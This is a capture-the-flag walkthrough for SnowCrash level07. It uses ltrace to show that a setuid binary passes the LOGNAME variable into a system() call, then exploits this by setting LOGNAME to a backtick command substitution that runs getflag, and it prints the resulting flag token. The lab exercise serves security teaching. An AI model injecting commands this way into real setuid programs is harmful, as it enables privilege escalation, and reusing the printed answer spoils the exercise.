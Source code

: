 # Level 07

- Once logged in, you will see `level07` binary file
```
???$ ssh level06@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level07@localhost's password:
level07SnowCrash:~$
level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$
```

To check more detail, let's use `ltrace`

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                     = 2007
geteuid()                                                                     = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                           = 0
getenv("LOGNAME")                                                             = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff26, 0xb7e5ee55, 0xb7fed280)           = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                        = 0
+++ exited (status 0) +++
level07@SnowCrash:~$
```
We can see the file takes an ENV varible of logname, and executs `/bin/echo level07`

Let's check the permissions of the file.
```
level07@SnowCrash:~$ ls -ls
total 12
12 -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```

Change environment variable **LOGNAME with command substitution by escaping backticks** if using with double quotes.
```
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

